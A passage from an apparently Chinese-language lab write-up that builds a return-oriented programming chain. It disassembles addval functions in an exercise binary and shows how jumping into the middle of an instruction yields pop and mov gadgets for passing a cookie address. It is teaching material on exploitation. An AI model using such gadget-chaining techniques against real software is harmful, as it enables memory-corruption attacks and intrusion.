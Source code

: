     ```text
    401966:	8d 87 9d 9e 58 90       lea     -0x6fa76163(%rdi), %eax
    40196c:	c3                      retq
    ```

    从 0x40196a 开始执行便是

    ```text
    40196a: 58          pop     %rax
    40196b: 90          nop
    40196c: c3          retq
    ```

4. 通过 add_xy 函数得到 cookie 的地址
   1. 准备参数
        addval_456 函数

        ```text
        4019a1: 8d 87 89 c1 38 c0       lea     -0x3fc73e77(%rdi), %eax
        4019a7: c3                      retq
        ```

        从 0x4019a3 开始执行

        ```text
        4019a3: 89 c1       mov     %eax, %ecx
        4019a5: 38 c0       cmp     %al, %al    ; 相当于 nop
        4019a7: c3          retq
        ```

        addval_162 函数

        ```text
        4019c2: 8d 87 89 ca 38 c0       lea    -0x3fc73577(%rdi),%eax
        4019c8: c3                      retq   
        ```

        从 0x4019c4 开始执行

        ```text
        4019c4: 89 ca       mov     %ecx, %edx
        4019c6: 38 c0       cmp     %al, al     ; 相当于 nop
        4019c8: c3          retq
        ```

        addval_426 函数

        ```text
        4019af: 8d 87 89 d6 20 db       lea    -0x24df2977(%rdi),%eax
        4019b5: c3                      retq
        ```

        从 0x4019b1 开始执行

        ```text
        4019b1: 89 d6       mov     %edx, %esi
        4019b3: 20 db       and     %bl, %bl    ; 相当于 nop
        4019b5: c3          retq
        ```

